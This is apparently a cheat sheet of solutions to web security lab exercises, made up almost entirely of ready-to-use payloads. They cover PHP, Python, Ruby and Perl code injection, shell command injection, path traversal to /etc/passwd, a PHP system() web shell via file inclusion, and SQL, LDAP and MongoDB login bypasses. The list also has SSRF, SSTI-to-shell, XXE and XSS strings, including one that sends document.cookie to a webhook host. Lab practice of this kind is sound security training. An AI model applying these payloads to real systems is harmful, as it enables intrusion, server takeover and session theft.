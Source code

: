 01 - Code Execution - PHP Eval() - URL/?name=".system('id').";#</br>
02 - Code Execution - SQL Request/PHP usort() - URL/?order=id);}system('uname -a');//</br>
03 - Code Execution - PHP(<5.5.0) preg_replace - URL/?new=<b>phpinfo()</b>&pattern=/lamer<b>/e</b>&base=Hello lamer</br>
04 - Code Execution - PHP assert - URL/?name=hacker'.phpinfo().'</br>
05 - Code Execution - Ruby App(PHP) - URL/?username="%2b\`id\`%2b" <b>(encoded and execute inside of ``)</b></br>
06 - Code Execution - Python App - URL/hello/hacker%22%2bstr(os.popen('id'))%2b%22 <b>(encoded)</b></br>
07 - Code Execution - Python App - URL/hello/hacker%22%2bstr(\_\_import__('os').popen('id').read())%2b%22</br>
08 - Code Execution - Python App - URL/hello/hacker%22%2bstr(\_\_import_\_('os').popen(\_\_import_\_('base64').b64decode('L3Vzci9sb2NhbC9iaW4vc2NvcmUgOTlkOTIyNTgtNGQ2My00Yzc3LTkwMDMtOGNiMGJjODU1YWEzCg==')).read())%2b%22</br>
09 - Code Execution - Perl App - URL/cgi-bin/hello?name=hacker%27.\`/usr/local/bin/score%2099d92258-4d63-4c77-9003-8cb0bc855aa3\`.%27</br></br>
10 - Command Execution - URL/?ip=\`/usr/local/bin/score%2099d92258-4d63-4c77-9003-8cb0bc855aa3\`</br>
11 - Command Execution - URL/?ip=$(/usr/local/bin/score%2099d92258-4d63-4c77-9003-8cb0bc855aa3)</br></br>
12 - Directory Traversal - URL/file.php?file=/var/www/../../../../etc/passwd <b>(our input must start with "/var/www/")</b></br>
13 - Directory Traversal - NULL BYTE - URL/file.php?file=../../../../etc/passwd%00</br></br>
14 - File Include - URL/?page=URL/test_include_system.txt&c=id <b>(test_include_system.txt \<?php system($\_GET['c']);\?>)</b></br>
15 - File Include - NULL BYTE - URL/?page=URL/test_include_system.txt%00&c=id</br></br>
16 - LDAP - NULL - Remove variables</br>
17 - LDAP - Injection - URL/?name=admin)(cn=\*))%00&password=admin </br></br>
18 - MongoDB Injection - URL/?username=admin%27%20||%201==1%20%00&password=&submit=Submit - (it could be --)</br>
19 - MongoDB Password Check (1) - URL/?search=admin%27%20%26%26%20this.password.match(/d/)%00</br>
20 - MongoDB Password Check (2) - URL/?search=admin%27%20%26%26%20this.password.match(/^d/)%00</br></br>
21 - Open Redirect - URL/redirect.php?uri=//google.com - <b>(//)</b></br></br>
20 - SQLi Bypass - admin' or 1=1 -- (' or '1'='1' || ' or '1'='1' -- || admin" or 1=1 -- || admin' or 1=1 LIMIT 1 -- ) <b>be careful with the spaces</b></br>
21 - SQLi Bypass - username=admin%27||1%3D1%23&password=admin</br>
22 - SQLi Bypass - username=admin%bf%27+or+1=1+--+&password=admin</br></br>
23 - SSRF - URL/?url=hxxp://127.0.0.1:1234 || URL/?url=hxxp://localhost:1234/ || URL/?url=hxxp://127.0.0.4:1234</br>
24 - SSRF - URL/?url=hxxp://assets.pentesterlab.com.hackingwithpentesterlab.link:1234/hacker.txt</br></br>
25 - SSTI - test{{1+2}} - URL/test%7B%7B''.\_\_class_\_.mro()[2].\_\_subclasses_\_()\[233](%22uname%20-a%22,shell=True)%7D%7D</br>
26 - SSTI - URL/?name={{\_self.env.registerUndefinedFilterCallback(%27exec%27)}}{{\_self.env.getFilter(%27uname%27)}}</br></br>
27 - XML - \<!DOCTYPE test \[\<\!ENTITY x SYSTEM "file:\///etc/passwd"\>]\><test>\%26x\;<\/test></br>
28 - XML - URL/?name=hacker%27%20or%201=1]/parent::*/child::node()\%00&password=pentesterlab</br></br>
29 - XSS - \<sc\<script>ript>alert(1)\<\/sc<\/script>ript></br>
30 - XSS - \<a onmouseover='alert(1)'>TEST\</a\></br>
31 - XSS - onerror: \<img src='zzzz' onerror='alert(1)' \/></br>
32 - XSS - URL/?name=\<script>eval("al"%2b"ert(1)")\<\/script></br>
33 - XSS - URL/?name=hacker';alert('99d92258-4d63-4c77-9003-8cb0bc855aa3');var b='</br>
34 - XSS - URL/index\.php/something"><script>alert(1)</script><</br>
35 - XSS - <script>document.write('<img src=\"WEBHOOK?c='\%2bdocument.cookie\%2b'" />');</script>






